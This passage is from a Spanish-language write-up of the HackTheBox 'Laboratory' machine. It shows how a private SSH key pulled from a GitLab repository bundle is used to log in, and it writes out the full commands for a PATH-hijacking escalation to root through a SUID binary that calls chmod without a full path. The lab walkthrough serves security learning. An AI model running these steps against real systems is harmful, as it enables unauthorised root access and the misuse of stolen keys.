error: cannot run less: No such file or directory
commit 5bd1925e5f8ce5ab97c5eef8a1c2cac3c778873f (HEAD -> master, origin/master, origin/HEAD)
Author: Dexter McPherson <dexter@laboratory.htb>
Date:   Sun Jul 5 17:11:26 2020 +0200

    Initial commit
```

Bien, pues despues de ojear los archivos no tenemos nada relevante, solo confirmamos el correo de `dexter` :P

#### ¬ securedocker

```
* dexter/securedocker (@hashed/19/58/19581e27de7ced00ff1ce50b2047e7a567c76b1cbaebabe5ef03f7c3017bb5b7) ... [DONE]
```

```bash
git@git:/dev/shm/test/repositories/@hashed/19/58$ ls -la
total 4
drwxr-xr-x 3 git git   80 Jan 31 22:45 .
drwxr-xr-x 3 git git   60 Jan 31 22:45 ..
drwxr-xr-x 2 git git   40 Jan 31 23:09 19581e27de7ced00ff1ce50b2047e7a567c76b1cbaebabe5ef03f7c3017bb5b7
-rw-r--r-- 1 git git 3542 Jan 31 22:45 19581e27de7ced00ff1ce50b2047e7a567c76b1cbaebabe5ef03f7c3017bb5b7.bundle
git@git:/dev/shm/test/repositories/@hashed/19/58$ git clone 19581e27de7ced00ff1ce50b2047e7a567c76b1cbaebabe5ef03f7c3017bb5b7.bundle 
Cloning into '19581e27de7ced00ff1ce50b2047e7a567c76b1cbaebabe5ef03f7c3017bb5b7'...
Receiving objects: 100% (10/10), done.
git@git:/dev/shm/test/repositories/@hashed/19/58$ ls -la
total 4
drwxr-xr-x 3 git git   80 Jan 31 22:45 .
drwxr-xr-x 3 git git   60 Jan 31 22:45 ..
drwxr-xr-x 4 git git  120 Jan 31 23:09 19581e27de7ced00ff1ce50b2047e7a567c76b1cbaebabe5ef03f7c3017bb5b7
-rw-r--r-- 1 git git 3542 Jan 31 22:45 19581e27de7ced00ff1ce50b2047e7a567c76b1cbaebabe5ef03f7c3017bb5b7.bundle

git@git:/dev/shm/test/repositories/@hashed/19/58$ cd 19581e27de7ced00ff1ce50b2047e7a567c76b1cbaebabe5ef03f7c3017bb5b7
git@git:/dev/shm/test/repositories/@hashed/19/58/19581e27de7ced00ff1ce50b2047e7a567c76b1cbaebabe5ef03f7c3017bb5b7$ ls -la
total 8
drwxr-xr-x 4 git git 120 Jan 31 23:09 .
drwxr-xr-x 3 git git  80 Jan 31 22:45 ..
drwxr-xr-x 7 git git 240 Jan 31 23:09 .git
-rw-r--r-- 1 git git  37 Jan 31 23:09 README.md
-rw-r--r-- 1 git git 382 Jan 31 23:09 create_gitlab.sh
drwxr-xr-x 3 git git 100 Jan 31 23:09 dexter
```

En `create_gitlab.sh` tenemos la estructura del contenedor en el que estamos:

```bash
git@git:/dev/shm/test/repositories/@hashed/19/58/19581e27de7ced00ff1ce50b2047e7a567c76b1cbaebabe5ef03f7c3017bb5b7$ cat create_gitlab.sh 
#!/bin/bash
mkdir /srv/gitlab
export GITLAB_HOME=/srv/gitlab
docker run --detach \
  --hostname git.laboratory.htb \
  --publish 60443:443 --publish 60080:80 --publish 60022:22 \
  --name gitlab \
  --restart always \
  --volume $GITLAB_HOME/config:/etc/gitlab \
  --volume $GITLAB_HOME/logs:/var/log/gitlab \
  --volume $GITLAB_HOME/data:/var/opt/gitlab \
  gitlab/gitlab-ce:latest
```

Si revisamos la carpeta `/dexter` obtenemos info muy valiosa:

```bash
git@git:/dev/shm/test/repositories/@hashed/19/58/19581e27de7ced00ff1ce50b2047e7a567c76b1cbaebabe5ef03f7c3017bb5b7$ cd dexter/
git@git:/dev/shm/test/repositories/@hashed/19/58/19581e27de7ced00ff1ce50b2047e7a567c76b1cbaebabe5ef03f7c3017bb5b7/dexter$ ls -la
total 8
drwxr-xr-x 3 git git 100 Jan 31 23:09 .
drwxr-xr-x 4 git git 120 Jan 31 23:09 ..
drwxr-xr-x 2 git git  80 Jan 31 23:09 .ssh
-rw-r--r-- 1 git git 102 Jan 31 23:09 recipe.url
-rw-r--r-- 1 git git 160 Jan 31 23:09 todo.txt
git@git:/dev/shm/test/repositories/@hashed/19/58/19581e27de7ced00ff1ce50b2047e7a567c76b1cbaebabe5ef03f7c3017bb5b7/dexter$ ls -la .ssh/
total 8
drwxr-xr-x 2 git git   80 Jan 31 23:09 .
drwxr-xr-x 3 git git  100 Jan 31 23:09 ..
-rw-r--r-- 1 git git  568 Jan 31 23:09 authorized_keys
-rw-r--r-- 1 git git 2601 Jan 31 23:09 id_rsa
git@git:/dev/shm/test/repositories/@hashed/19/58/19581e27de7ced00ff1ce50b2047e7a567c76b1cbaebabe5ef03f7c3017bb5b7/dexter$ cat .ssh/id_rsa
```

![298bash_revshGIT_bundle_idRSA](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/laboratory/298bash_revshGIT_bundle_idRSA.png)

> Las llaves de `SSH` siempre son generadas en pares con una llamada llave privada y otra llamada llave pública. La llave privada solo es conocida por el usuario y debe ser guardada con cuidado. [ArchLinux.org](https://wiki.archlinux.org/index.php/SSH_keys_(Espa%C3%B1ol)#Informacion_preliminar)

¿Pero por qué con "cuidado"?

Como bien dice [ehu.eus](https://www.ehu.eus/ehusfera/ghym/2010/10/15/identificacion-automatica-en-ssh-usando-claves-rsa/) en su web, "Cuando tenemos que conectarnos habitualmente a un servidor Linux mediante SSH puede resultar muy tedioso tener que escribir la contraseña en cada sesión." Por lo que muchas veces las llaves SSH nos "facilitan" la vida, donde la llave pública (`id_rsa.pub`) le indica a la máquina que nos permita ingresar sin contraseña, pero solo si estamos agregados (`id_rsa.pub`) en el archivo `authorized_keys`. 

Digamos que en este caso deberíamos estar en el archivo `/home/dexter/.ssh/authorized_keys`, para conectarnos como `dexter` en el sistema... En el caso de `root` si estuvieramos en su archivo (../../rutaXD), pues si, nos conectaríamos como `root`. (Pero a esto no le podemos sacar provecho en este momento).

Pero donde la llave `id_rsa` le indica al sistema que prácticamente estamos proveyendo una contraseña (aunque ni tengamos indicios de como sea) del usuario al que le extraimos la llave, en este caso `dexter`..

Muy bien, tenemos la llave de acceso al sistema (`id_rsa`) presuntamente como el usuario `dexter`, probemos:

La guardamos en un archivo, lo llamaré `id_dexter`, le otorgamos permisos: `chmod 600 id_dexter` y ejecutamos mediante `SSH`:

```bash
–» ssh dexter@10.10.10.216 -i id_dexter
dexter@laboratory:~$ id
uid=1000(dexter) gid=1000(dexter) groups=1000(dexter)
dexter@laboratory:~$ ls
user.txt
dexter@laboratory:~$ 
```

Perfecto, estamos dentro como `dexter`... Nice, pero antes de seguir, revisemos si los archivos del repositorio tienen algo más:

```bash
git@git:/dev/shm/test/repositories/@hashed/19/58/19581e27de7ced00ff1ce50b2047e7a567c76b1cbaebabe5ef03f7c3017bb5b7/dexter$ cat todo.txt
# DONE: Secure docker for regular users
### DONE: Automate docker security on startup
# TODO: Look into "docker compose"
# TODO: Permanently ban DeeDee from lab
```

Jmm, `look into "docker compose"` me llama la atención, no se si sea relevante, pero para tenerlo en cuenta (: El otro archivo tiene una URL:

```bash
git@git:/dev/shm/test/repositories/@hashed/19/58/19581e27de7ced00ff1ce50b2047e7a567c76b1cbaebabe5ef03f7c3017bb5b7/dexter$ cat recipe.url 
[InternetShortcut]
URL=https://www.seriouseats.com/recipes/2016/04/french-omelette-cheese-recipe.html
```

Nada relevante. Enumeremos ahora como `dexter` dentro de la máquina...

...

## Escalada de privilegios [#](#escalada-de-privilegios) {#escalada-de-privilegios}

Buscando por los archivos relacionados con el grupo `dexter` obtenemos esto:

```bash
dexter@laboratory:~$ find / -group dexter 2>/dev/null | grep -v proc
/usr/local/bin/docker-security
/home/dexter
/home/dexter/.local
/home/dexter/.local/share
/home/dexter/.local/share/nano
/home/dexter/.local/share/nano/search_history
/home/dexter/.profile
/home/dexter/.gnupg
/home/dexter/.gnupg/pubring.kbx
/home/dexter/.gnupg/trustdb.gpg
/home/dexter/.cache
/home/dexter/.cache/motd.legal-displayed
/home/dexter/.ssh
/home/dexter/user.txt
/home/dexter/.bashrc
/home/dexter/.bash_logout
dexter@laboratory:~$
```

* `/usr/local/bin/docker-security`.

Si vemos como está definido el archivo tenemos claro que debemos usarlo para escalar privilegios:

![298bash_revshDEX_dockerSec_lsLA](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/laboratory/298bash_revshDEX_dockerSec_lsLA.png)

Tenemos un objeto creado por el usuario `root` y que cuando lo ejecutemos estaremos ejecutándolo como `root` no como `dexter` :O los famosos `SUID (Set User ID)`.

> SUID? ... it’s a way in UNIX-like operating systems of running a command as another user without providing credentials. [pentestpartners.com/exploiting-suid-executables](https://www.pentestpartners.com/security-blog/exploiting-suid-executables/).

Perfectoooooo... Pero ejecutándolo no tenemos ningún output, jmmm, que tipo de archivo es?:

```bash
dexter@laboratory:~$ file /usr/local/bin/docker-security
/usr/local/bin/docker-security: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=d466f1fb0f54c0274e5d05974e81f19dc1e76602, for GNU/Linux 3.2.0, not stripped
```

Un binario, inicialmente en internet no encontramos nada relacionado con él, probemos a ver si vemos alguna cadena de texto interesante. La herramienta `strings` no está instalada, intentemos con `cat`: 

```bash
dexter@laboratory:~$ cat /usr/local/bin/docker-security
ELF>p@9@8
...
...
H0zRx{UHH=H=]AWL=O,AVIAUIATAUH-@,SL)CHtLLDAHH9u[]A\A]A^A_chmod 700 /usr/bin/dockerchmod 660 /var/run/docker.sock<(X
    Rx
...
...
```

Vemos que presuntamente está cambiando los permisos de los archivos `/usr/bin/docker` y `/var/run/docker.sock`. También podemos verlo más claro con `ltrace` (nos ayuda a ver las llamadas que hace un programa sobre el sistema):

```bash
dexter@laboratory:~$ ltrace /usr/local/bin/docker-security
setuid(0)                                                                                                              = -1
setgid(0)                                                                                                              = -1
system("chmod 700 /usr/bin/docker"chmod: changing permissions of '/usr/bin/docker': Operation not permitted
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                                                 = 256
system("chmod 660 /var/run/docker.sock"chmod: changing permissions of '/var/run/docker.sock': Operation not permitted
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                                                 = 256
+++ exited (status 0) +++
```

Acá está más claro (creo yo :P), intenta cambiar los permisos, pero no permite la acción... Pero hay algo curioso, está llamando a `docker` por su ruta absoluta (`/usr/bin/docker`) y al archivo `docker.sock` también por su ruta completa (`/var/run/docker.sock`), pero `chmod` está siendo llamado en general...

Lo que pasa ahí es que cuando ejecutamos `chmod`, el sistema va a buscar el binario en todas las rutas del **PATH** (`echo $PATH`), ira recorriendo cada directorio y donde primero lo encuentre, será ese el que ejecute... Sabiendo esto, podemos aprovecharnos para hacer un `PATH Hijacking`, en el que crearemos un archivo llamado `chmod`, en su contenido le indicamos que nos genere una `Shell`, modificaremos el **PATH** para que si o si encuentre primero nuestro binario y lo ejecute. Consiguiendo así una Shell como el usuario administrador del sistema (`root`). Prendámosle fuego:

* Más info sobre `PATH Hijacking`. - [hackingarticles.in/linux-privesc-using-path-variable](https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/).

...

#### ¬ Creamos el archivo `chmod`

```bash
dexter@laboratory:/dev/shm$ echo '#!/bin/bash' > chmod
dexter@laboratory:/dev/shm$ which bash
/usr/bin/bash
#Con esta linea obtendremos una `bash`.
dexter@laboratory:/dev/shm$ echo '/usr/bin/bash' >> chmod 

#Otorgamos permisos de ejecución.
dexter@laboratory:/dev/shm$ chmod +x chmod 

#Validamos.
dexter@laboratory:/dev/shm$ cat chmod 
#!/bin/bash
/usr/bin/bash
dexter@laboratory:/dev/shm$ 
```

Si lo probamos con `dexter` pasaría esto:

```bash
dexter@laboratory:/dev/shm$ /bin/sh
$ ./chmod
dexter@laboratory:/dev/shm$ 
```

#### ¬ Modificamos la variable `PATH`.

```bash
dexter@laboratory:/dev/shm$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/snap/bin

#La guardamos en otra variable por si algo.
dexter@laboratory:/dev/shm$ old_path=$PATH

#Le indicamos donde esta nuestro binario, esa ruta quedara de primero, en mi caso `/dev/shm`.
dexter@laboratory:/dev/shm$ export PATH=/dev/shm:$PATH

#La nueva variable `PATH`.
dexter@laboratory:/dev/shm$ echo $PATH
/dev/shm:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/snap/bin
dexter@laboratory:/dev/shm$
```

Perfecto, ahora simplemente nos quedaría ejecutar el binario `/usr/local/bin/docker-security`.

#### ¬ Ejecutar el `PATH Hijacking`.

![298bash_revshDEX_dockerSec_rootSH](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/laboratory/298bash_revshDEX_dockerSec_rootSH.png)

Opa, si señor, somos `root` ツ Solo nos quedaría ver las flags:

![298flags](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/laboratory/298flags.png)

...

Y hemos acabado paaaaaaaaaarce.e 

Me gusto la máquina, mientras veía como jugar con los archivos `.bundle` me pareció que eso si debe ser muy real, a mucha gente se le debe colar/olvidar/dar-igual el archivo `id_rsa`. Jajaj o pues espero que no :P

Me encanta hacer `PATH Hijacking` así que eso también me subió mucho más el ánimo por la máquina...

Esto es todo por ahora, muchas gracias por pasarte y leer y nada, a seguir rompiendo todo ♥